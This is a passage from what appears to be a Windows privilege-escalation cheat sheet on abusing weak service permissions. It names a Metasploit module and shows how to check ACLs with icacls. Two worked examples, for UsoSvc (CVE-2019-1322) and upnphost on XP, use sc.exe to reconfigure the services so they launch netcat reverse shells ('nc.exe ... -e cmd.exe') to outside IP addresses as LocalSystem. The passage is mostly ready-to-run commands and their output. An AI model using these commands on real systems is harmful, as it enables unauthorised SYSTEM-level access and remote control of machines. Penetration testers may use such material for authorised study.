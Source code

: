 Alternatively you can use the Metasploit exploit : `exploit/windows/local/service_permissions`

Note to check file permissions you can use `cacls` and `icacls`
> icacls (Windows Vista +)    
> cacls (Windows XP)

You are looking for `BUILTIN\Users:(F)`(Full access), `BUILTIN\Users:(M)`(Modify access) or  `BUILTIN\Users:(W)`(Write-only access) in the output.

### Example with Windows 10 - CVE-2019-1322 UsoSvc

Prerequisite: Service account

```powershell
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem

PS C:\Windows\system32> sc.exe start UsoSvc
```

### Example with Windows XP SP1 - upnphost

```powershell
# NOTE: spaces are mandatory for this exploit to work !
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

If it fails because of a missing dependency, try the following commands.

```powershell
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost

sc config upnphost depend=""
```
